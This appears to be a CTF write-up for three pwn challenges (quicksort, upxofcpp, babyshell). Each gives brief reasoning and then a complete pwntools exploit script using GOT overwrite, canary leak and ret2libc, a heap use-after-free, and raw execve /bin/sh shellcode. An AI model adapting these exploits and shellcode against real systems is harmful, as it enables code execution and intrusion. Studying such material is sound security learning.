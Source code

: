 # pwn

## quicksort

In `gets(&s);`, there is an overflow. We can use it to changed the pointer. The `atoi` will convert our input to integer. We can use it to do arbitrary write. Since is `Partial RELRO`, we can change the `.got` table to hijack program flow.

```python
from pwn import *

context.log_level = 'DEBUG'

p = process('./quicksort')
gdb.attach(p)
sort = ELF('./quicksort')
atoi_got = sort.got['atoi']
free_got = sort.got['free']
puts_got = sort.got['puts']
printf_got = sort.got['printf']
printf_plt = sort.plt['printf']
puts_plt = sort.plt['puts']
main = 0x80489C9
libc = ELF("/lib/i386-linux-gnu/libc.so.6")
alarm_off = libc.symbols['alarm']
system_off = libc.symbols['system']
sh = next(libc.search('/bin/sh\x00'))

print "free got: " + hex(free_got)

def attack(change_to, num, i, j, ptr, not_raw = True):
    payload = ''
    if not_raw:
        payload += str(change_to) + 'A' * (16 - len(str(change_to)))
    else:
        payload += change_to
    payload += p32(num) # change num
    payload += p32(i) # change iterator i
    payload += p32(j) # change iterator j, useless
    payload += p32(ptr) # change ptr!
    return payload

def sendnum(content):
    p.recvuntil(":")
    p.sendline(content)

how_many = 1

# Prepare Number
p.recvuntil('?')
p.sendline(str(how_many))

# Patch free to bypass check
payload = attack(puts_plt, 2, 0, 233, free_got)
sendnum(payload)

# Leak
payload = attack(printf_plt, 2, 0, 233, atoi_got)
sendnum(payload)

payload = attack("%15$x " + "%2$x " +'%6$x ', 2, 0, 233, 0x804a070, not_raw = False)
sendnum(payload)

# Get canary value
canary = p.recvuntil(' ').replace(' ', '')
canary = int(canary, 16)
print "Canary: " + hex(canary)

# Get stack value
stack = p.recvuntil(' ').replace(' ', '')
stack = int(stack, 16) - 76
print "Stack: " + hex(stack)

# ROP
payload = attack(p32(0x0) * 4, 0, 3, 0, free_got, not_raw = False)
payload += p32(canary)
payload += "AAAA" * 3
payload += p32(main)
print "ROPing.."
sendnum(payload)
p.recvlines(2)
leak_alarm = p.recvuntil('\n')[:-1]
leak_alarm = u32(leak_alarm[-4:])
system_addr = leak_alarm - alarm_off + system_off
bin_addr = leak_alarm -alarm_off + sh

p.recvuntil('?')
p.sendline(str(how_many))

payload = attack("ls;" + "A"*13, 0, 3, 0, free_got, not_raw = False)
payload += p32(canary)
payload += p32(0) * 3
payload += p32(system_addr)
payload += p32(0)
payload += p32(bin_addr)
payload += p32(0) * 3
print "ROPing.."
sendnum(payload)

p.interactive()
```

## upxofcpp

This program will new a C++ object and put a malloc in the `+16` offset to store user provided number. And we can delete it.

Use `upx -d` to get an unpack version for debugging. When running the original file, we can see:
```
Arch:     amd64-64-little
RELRO:    No RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      PIE enabled
Packer:   Packed with UPX
```

Assume we create a chunk in location 0. If we remove 0 twice, we can get a Use After Free and see crash because it tries to dereference `[rax + 0x10]` while `rax = 0`. This is because the *class table* and `fd` is in the same offset. When the chunk is put to *fastbin*, the `fd` will be `0`. So the *class table* will also be `0`.

Since the heap in `rwx`. We can manage a way to write shellcode and jump to the stack to RCE. Just overwrite the *class table* to another chunk's address by adding them to *fastbin*, and then Use After Free to execute it:
```python
from pwn import *

#p = process("./uxpofcpp")
#p = process("./u")
p = remote("34.92.121.149", 10000)
context.log_level = "DEBUG"
#gdb.attach(p)

def add(idx, size, array):
    p.recvuntil(":")
    p.sendline("1")
    p.recvuntil(":")
    p.sendline(str(idx))
    p.recvuntil(":")
    p.sendline(str(size))
    payload = ''
    for i in array:
        payload += str(i) + ' '
    p.recvuntil(":")
    p.sendline(payload)

def remove(idx):
    p.recvuntil(":")
    p.sendline("2")
    p.recvuntil(":")
    p.sendline(str(idx))

def edit():
    p.recvuntil(":")
    p.sendline("3")

def show(idx):
    p.recvuntil(":")
    p.sendline("4")
    p.recvuntil(":")
    p.sendline(str(idx))

# prepare
add(0, 12, [-1]) # ptr: 0x555555769c10;
add(1, 12, [-1]) # ptr: 0x555555769c70;
remove(0)
remove(1)

# go!
add(2, 6, [1, 2, 3, -1]) #ptr: 0x555555769c70; #malloc: 0x555555769c10;
add(14, 6, [1, 2, 3, 4, 0x4deb90, 0xCCCCCC]) #shellcode jmp
add(15, 12, [-1])
add(13, 30, [0x3bc0c748, 0x50000000, 0x50d23148, 0x48f63148,
 0x69622fbb, 0x68732f6e, 0x5f545300, 0x050f3bb0, -1]) # must be less than 0x80000000
remove(15)
remove(1)

show(1)

p.interactive()
```

## babyshell

A task requires us to write shellcode with characters imitation. Since `rax` is 0 and `rsi` is `buf`(out input) in default, we can use `pop rdx` and `pop rdi` to change it to a valid *syscall*:
```python
from pwn import *

p = process("./shellcode")
gdb.attach(p)
context.log_level = "DEBUG"

p.recvuntil(":")

# a read call
shellcode = ''
shellcode += p8(0x5f) * 10# poprdi
shellcode += p8(0x5a) * 2 #poprdx
shellcode += p16(0x050f) # syscall

p.sendline(shellcode);
sleep(1)
shellcode = '\x90' * 20
shellcode += "\x48\x31\xc0\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05"
p.sendline(shellcode)
p.interactive()
```